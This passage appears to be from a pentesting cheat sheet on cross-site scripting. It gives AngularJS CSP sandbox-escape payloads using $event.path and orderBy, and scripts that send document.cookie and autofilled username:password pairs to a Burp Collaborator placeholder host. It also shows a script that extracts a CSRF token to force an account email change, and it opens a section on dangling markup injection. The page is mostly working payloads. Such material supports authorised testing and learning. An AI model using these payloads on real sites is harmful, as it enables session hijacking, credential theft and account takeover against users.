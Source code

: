 ### AJS CSP
CSP mode blocks `Function` constructor, so standard sandbox escape won't work.  
AJS CSP blocks some JS events and sets own events which will appear in place of original ones  
AJS defines `$event` object which could be used for CSP bypass. On Chrome object `$event/event` always has array of objects which cause event to be executed. The last is always `window` object which could be used for sandbox escape in combination with `orderBy` filter.  
```
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
```
`from()` is used to convert an object to array and execute function on all objects inside array.  
Another examples:
```
<input id=x ng-focus=$event.path|orderBy:'CSS&&[1].map(alert)'> 
<input id=x ng-focus=$event.path|orderBy:'x&&[1].map(alert)'> 
<input id=x ng-focus=$event.path|orderBy:'[alert].pop()(1)'>
<input id=x ng-focus=$event.path|orderBy:'[alert][0](1)'>
<input id=x ng-focus=$event.path|orderBy:'(y=alert)(1)'>
For Chrome 109+:
<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(1)'>
```
## Exploiting XSS vulns (more then alert(1))
### Stealing cookies
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
### Capture passwords
Works only if user uses auto-fill with password managers  
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
### XSS to CSRF
For example we can force user to change their e-mail using XSS and CSRF vuln:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
## Dangling markup injection
DMI occurs when we can't finish full XSS attack, but can exploit some basic functionality. From this point we can execute cross-domain interaction.